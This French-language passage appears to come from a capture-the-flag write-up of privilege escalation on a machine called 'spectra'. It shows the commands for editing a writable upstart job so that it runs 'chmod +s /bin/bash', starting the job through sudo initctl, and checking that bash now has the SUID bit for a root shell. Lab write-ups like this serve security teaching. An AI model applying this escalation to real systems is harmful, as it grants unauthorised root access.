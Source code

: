 ```
katie@spectra ~ $ sudo initctl list

[...]
init-homedirs stop/waiting
install-completed start/running
journald start/running, process 553
log-rotate start/running, process 2152
neverware_daemon start/running, process 2004
neverware_fixhw stop/waiting
oobe_config_save stop/waiting
report-boot-complete stop/waiting
send-uptime-metrics stop/waiting
ui stop/waiting
ureadahead stop/waiting
usb_bouncer stop/waiting
test2 stop/waiting
```

On peut voir un service `test2` qui n'est pas en service, on pourrait injecter du code bash afin de mettre un SUID sur le binaire `/bin/bash` afin de se créer un shell en tant que root.

Commençons par éditer le fichier `test.conf`.

> nano /etc/init/test.conf

```
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

        chmod +s /bin/bash

end script
```

Lancer le service test.

> sudo /sbin/initctl start test

```
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 5180
```

Si l'on regarde les droits de `/bin/bash` on peut voir que le SUID est bien passé sur l'utilisateur root.

```
ls -l /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22 05:46 /bin/bash
```
